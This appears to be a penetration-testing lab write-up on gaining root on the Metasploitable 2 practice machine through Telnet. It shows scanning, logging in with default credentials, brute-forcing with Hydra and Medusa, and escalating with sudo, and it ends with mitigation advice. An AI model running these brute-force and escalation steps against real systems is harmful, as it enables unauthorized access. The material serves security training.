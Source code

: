# Telnet - Weak Credential Exploit

### Service Overview


Telnet is an older remote communication protocol that transmits data in plaintext. On Metasploitable 2, Telnet runs on port 23 and allows remote login using insecure, often default credentials.

---

## Vulnerability Overview

- **Name:** Telnet Weak Credential Login
- **CVE**: None (misconfiguration issue, not software vulnerability)
- **Impact**: Unauthorized remote shell access
- **Access Required**: None (can be brute-forced or guessed)
- **Attack Type**: Credential-based brute-force or default credentials
---

## Service Detection and Enumeration

```bash
sudo nmap -sV -v -p 23 <target_ip>
```

![Nmap_Telnet_Service_Scan](Nmap_Telnet_Service_Scan.png)

---

## Exploitation (Manual)

Use the `telnet` command to directly connect to the machine:

```bash
telnet <target_ip> 23
```

Try default credentials:

```
Username: msfadmin
Password: msfadmin
```

![Telnet_login](./Telnet_login.png)

## Exploitation (Automated - Hydra)

```bash
hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt telnet://<target_ip>
```

or 

```bash
medusa -h <target_ip> -u msfadmin -P /usr/share/wordlists/rockyou.txt -M telnet
```
---

## Privilege Escalation


Once logged in as `msfadmin`, privilege escalation is possible because this user has `sudo` access.

```bash
sudo -l
```

Enter the same password (msfadmin) when prompted. If allowed:
```bash
sudo su
```
Now we have root shell access.

![Telnet_Priv_Esc](./Telnet_Priv_Esc.png)


## Results

- Gained user shell through default Telnet credentials
- Demonstrated the weakness of plaintext protocols and weak passwords
- Performed local privilege escalation to gain full root access

## Mitigation

- Disable Telnet entirely; it transmits data *unencrypted*
- Disable or remove default accounts like `msfadmin`, `user`, `postgres`, etc.
- Restrict Telnet access via firewalls or IP whitelisting
- Limit `sudo` usage and harden `/etc/sudoers` to only allow necessary privilege escalation


